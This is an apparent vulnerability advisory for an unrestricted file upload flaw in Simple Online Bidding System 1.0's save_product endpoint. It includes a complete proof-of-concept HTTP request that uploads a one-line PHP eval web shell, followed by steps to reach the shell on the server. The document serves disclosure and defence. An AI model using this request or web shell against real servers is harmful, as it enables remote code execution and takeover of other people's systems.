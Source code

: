 ## Affected version: 
Simple Online Bidding System - 1.0

## Vendor:
https://www.sourcecodester.com/users/tips23

## Software:
https://www.sourcecodester.com/php/14558/simple-online-bidding-system-using-phpmysqli-source-code.html

## Vulnerability File:
/simple-online-bidding-system/admin/ajax.php?action=save_product

## Description:
Simple Online Bidding System 1.0 is vulnerable to the /simple-online-bidding-system/admin/ajax.php?action=save_product unrestricted file upload attack. This function point does not impose any restrictions on suffixes. A malicious attacker could exploit this vulnerability to gain server privileges.

Status: CRITICAL

POC
```
POST /simple-online-bidding-system/admin/ajax.php?action=save_product HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:125.0) Gecko/20100101 Firefox/125.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------23417102524039633104198795843
Content-Length: 1103
Origin: http://localhost
Connection: close
Referer: http://localhost/simple-online-bidding-system/admin/index.php?page=manage_product&id=3
Cookie: PHPSESSID=44palbgphqda0ug0pvlpmao3tp
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
X-Forwarded-For: 192.168.1.23

-----------------------------23417102524039633104198795843
Content-Disposition: form-data; name="id"

3
-----------------------------23417102524039633104198795843
Content-Disposition: form-data; name="name"

Gadget Package
-----------------------------23417102524039633104198795843
Content-Disposition: form-data; name="category_id"

1
-----------------------------23417102524039633104198795843
Content-Disposition: form-data; name="description"

Sample 
-----------------------------23417102524039633104198795843
Content-Disposition: form-data; name="regular_price"

15000
-----------------------------23417102524039633104198795843
Content-Disposition: form-data; name="start_bid"

150000
-----------------------------23417102524039633104198795843
Content-Disposition: form-data; name="bid_end_datetime"

2020-10-27 17:00
-----------------------------23417102524039633104198795843
Content-Disposition: form-data; name="img"; filename="1.php"
Content-Type: application/octet-stream

<?php eval($_POST[1]);?>
-----------------------------23417102524039633104198795843--
```
![image](https://github.com/Hefei-Coffee/cve/assets/168982375/d6b46f23-d090-486a-b325-daf77c3f965e)

http://localhost/simple-online-bidding-system/admin/assets/uploads/3.php

Connect via webshell management tool
![image](https://github.com/Hefei-Coffee/cve/assets/168982375/d9cf0ba7-cb0a-4502-9ce2-5228c2e72206)

## code analysis:

Enter the save_product() method when action=save_product

![image](https://github.com/Hefei-Coffee/cve/assets/168982375/6add853b-e0b4-4004-9988-d223516b7f66)

There is no restriction on uploading in this method, causing an unlimited file upload vulnerability.
![image](https://github.com/Hefei-Coffee/cve/assets/168982375/7133f8f7-c06c-4675-a7c7-e61f8ceb67c6)

